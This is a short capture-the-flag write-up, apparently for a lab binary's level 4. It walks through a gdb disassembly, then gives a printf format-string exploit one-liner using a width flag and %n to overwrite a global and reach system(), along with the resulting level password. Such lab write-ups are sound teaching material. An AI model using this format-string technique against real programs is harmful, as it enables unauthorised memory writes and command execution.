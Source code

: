 We have the same exploit. But this time, the number of bytes we need to write is superior to the buffer size.
So we have to use an other flag in printf : the one managing the minimum number of bytes we need to write for an argument.
For example, `%10x` will write at least 10 bytes.
As previously done, we first get the address we need to modify :

```assembly
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.

```

Here, it is `0x8049810` we need to put `0x1025544` as value and the program will output the .pass for this level.

> cat <(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"') - | ./level4
> [...]
> 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

```bash
su level5
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

